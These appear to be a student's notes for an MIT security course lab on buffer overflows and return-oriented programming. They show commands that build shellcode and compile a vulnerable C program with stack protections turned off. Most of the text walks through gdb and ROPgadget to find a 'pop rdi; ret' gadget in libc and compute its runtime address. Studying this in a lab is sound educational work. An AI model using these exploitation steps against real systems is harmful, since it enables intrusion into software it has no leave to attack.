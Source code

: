`exploit.py` and `vulnerable.c` are from blog

usage:
```
cc -m64   -c -o shellcode.o shellcode.S

objcopy -S -O binary -j .text shellcode.o shellcode.bin

gcc -g -fno-stack-protector -z execstack vulnerable.c -o vulnerable -D_FORTIFY_SOURCE=0

./exploit.py | env - setarch -R ./vulnerable
```

## exploit-challenge:

### look up useful gadget(advised by hint: `pop %rdi; ret`) 
input:
```
ROPgadget --binary  /lib/x86_64-linux-gnu/libc.so.6 --only "pop|ret" | grep 'pop rdi'
```

output:
```
0x000000000002a3e5 : pop rdi ; ret
```
gadget addr: `0x000000000002a3e5`

### objdump look up `.text`
input:
```
objdump -h /lib/x86_64-linux-gnu/libc.so.6 | grep text
```

output:
```
14 .text         0019223d  0000000000028700  0000000000028700  00028700  2**6
```
.text begin address is `0x0000000000028700`



### gdb -p $(pgrep zookd)
input:
```
info files
```
output:
```
0x000015555530a700 - 0x000015555549c93d is .text in /lib/x86_64-linux-gnu/libc.so.6
```

### compute instruction mapping: libc => executable
```
0x000015555530a700: base .text addr of libc in runtime 
0x000000000002a3e5: static addr of 'pop %rdi; ret' in libc
0x0000000000028700: static begin addr of .text in libc

addr of 'pop %rdi; ret' in runtime:
0x000015555530a700 + (0x000000000002a3e5 - 0x0000000000028700) = 0x15555530c3e5
```

### gdb attach to verify:
input:
```
x/2b 0x15555530c3e5
```

output:
```
0x15555530c3e5 <iconv+197>:     0x5f    0xc3
```

input:
```
x/2i 0x15555530c3e5
```

output:
```
0x15555530c3e5 <iconv+197>:  pop    %rdi
0x15555530c3e6 <iconv+198>:  ret  
```

Original text: https://css.csail.mit.edu/6.5660/2024/labs/lab1.html

Because of the nature of x86/x86-64, you can use another technique to find sequences of instructions that don't even appear in the disassembly! Instructions are variable-length (from 1 to 15 bytes), and by causing a misaligned parse (by jumping into the middle of an intended instruction), you can cause a sequence of machine code to be misinterpreted. For example, the instruction sequence `pop %r15; ret` corresponds to the machine code `41 5F C3`. But instead of executing from the start of this instruction stream, if you jump 1 byte in, the machine code `5F C3` corresponds to the assembly `pop %rdi; ret`.
